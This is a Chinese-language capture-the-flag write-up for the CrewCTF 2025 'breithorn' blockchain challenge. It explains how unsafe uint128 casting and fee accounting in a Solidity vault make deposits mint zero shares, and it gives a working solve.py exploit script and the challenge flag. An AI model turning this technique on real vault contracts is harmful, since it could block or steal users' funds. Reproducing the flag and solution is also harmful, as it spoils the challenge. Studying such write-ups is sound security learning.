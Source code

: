 ```yaml
---
title: Blockchain - breithorn
description: 2025 | CrewCTF | Blockchain
tags:
    - smart contract
    - unsafe casting
---
```


## 题目

Don't let BOB get any funds, at all cost, btw: https://www.youtube.com/watch?v=ytWz0qVvBZ0

Get an instance via https://breithorn.chal.crewc.tf/ and connect via `ncat --ssl inst-xxxxxxxxxx-breithorn.chal.crewc.tf 1337`, make the function `isSolved` return TRUE to get the flag.

[:material-download: `breithorn.zip`](static/breithorn.zip)

## 解题思路

- 需要在最后调用函数 `isSolved` 时，合约 Challenge 无法通过 deposit 获得任何份额。

    ```js
    function isSolved() public returns(bool) {

        Vault vault = Vault(vaultFactory.vaultAt(0));
        if(address(vault) == address(0)) return false;

        // helper function to simulate the challenge token minting
        Token(address(vault.asset())).mintToChallenge();

        vault.asset().approve(address(vault), type(uint256).max);
        vault.deposit(800 ether, address(this));

        if(vault.balanceOf(address(this)) == 0) return true;

        return false;
    }
    ```

- 第一反应是使用通胀攻击，但是合约 Vault 的 `totalAssets` 和 `totalShares` 使用的是存储的值而不是实时代币余额，所以不能直接转移代币给合约 Vault。不过，在部署时可以设置任意 `uint128` 范围内的初始 `totalShares`。

    ```js
    constructor(ERC20 _asset, uint256[] memory params) ERC20("", "") payable {
        // [...]
        minDepositAmount = params[2] * 10 ** 6;

        _mint(address(this), minDepositAmount);
        totalAsset.shares += uint128(minDepositAmount);
    }
    ```

- 由于在调用 `_deposit()` 更新存储并铸造代币前，会将 `uint256` 类型的 `_amount` 和 `_sharesReceived` 强制转换为 `uint128` 类型，所以可以通过恰当地构造 `total.shares` 和 `total.amount` 的值来让合约 Challenge 调用 `deposit()` 时计算出的 `_sharesReceived` 为 $2^{128}$，从而在强制类型转换时归零。

    ```solidity
    function deposit(uint256 _amount, address _receiver) external returns (uint256 _sharesReceived) {
        Account memory _totalAsset = totalAsset;

        _sharesReceived = _totalAsset.toShares(_amount, false);

        _deposit(_totalAsset, uint128(_amount), uint128(_sharesReceived), _receiver);
    }

    function toShares(Account memory total, uint256 amount, bool roundUp) internal pure returns (uint256 shares) {
        if (total.amount == 0) {
            shares = amount;
        } else {
            shares = (amount * total.shares) / total.amount;
            if (roundUp && (shares * total.amount) / total.shares < amount) {
                shares = shares + 1;
            }
        }
    }
    ```

- 更简单地，可以将初始 `total.shares` 设置为 0，在 `total.amount` 为 0 时，调用 `repayAsset()` 通过支付费用使得 `total.amount` 大于 0，这样无论 Challenge 合约 deposit 多少代币都不会铸造 share 代币。

    ```js
    function _repayAsset(
        // [...]
    ) internal {
        // [...]

        userBorrowShares[_borrower] -= _shares;
        totalBorrow = _totalBorrow;

        uint256 fees = block.number - lastBorrow[_borrower];
        totalAsset.amount += uint128(fees);

        // [...]
    }

    function repayAsset(uint256 _shares, address _borrower) external returns (uint256 _amountToRepay) {
        Account memory _totalBorrow = totalBorrow;
        _amountToRepay = _totalBorrow.toAmount(_shares, true);

        _repayAsset(_totalBorrow, uint128(_amountToRepay), uint128(_shares), msg.sender, _borrower);
    }
    ```

??? note "solve.py"

    ```py
    from cheb3 import Connection
    from cheb3.utils import load_compiled

    factory_abi, _ = load_compiled("VaultFactory.sol")
    vault_abi, _ = load_compiled("Vault.sol")
    token_abi, _ = load_compiled("Token.sol")

    conn = Connection("<rpc-url>")
    account = conn.account("0x0c055dc5791bc7b49b2f85b911906fd80c5d654a9d14f9ad95cbb6fb80fd829c")
    setup = "<challenge-address>"

    factory_addr = conn.cast_call(setup, "vaultFactory()(address)")
    factory = conn.contract(account, address=factory_addr, abi=factory_abi)
    factory.functions.deploy([[1, 1, 0]]).send_transaction()

    vault_addr = factory.caller.vaultAt(0)
    vault = conn.contract(account, address=vault_addr, abi=vault_abi)

    token_addr = vault.caller.asset()
    token = conn.contract(account, address=token_addr, abi=token_abi)
    token.functions.mintToPlayer().send_transaction()

    token.functions.approve(vault_addr, 2**256 - 1).send_transaction()
    vault.functions.repayAsset(2 ** 128, account.address).send_transaction()

    print("Solved:", conn.cast_call(setup, "isSolved()(bool)"))
    ```

### Flag

> crew{C411D474Z3r04NDM1r4D0r}
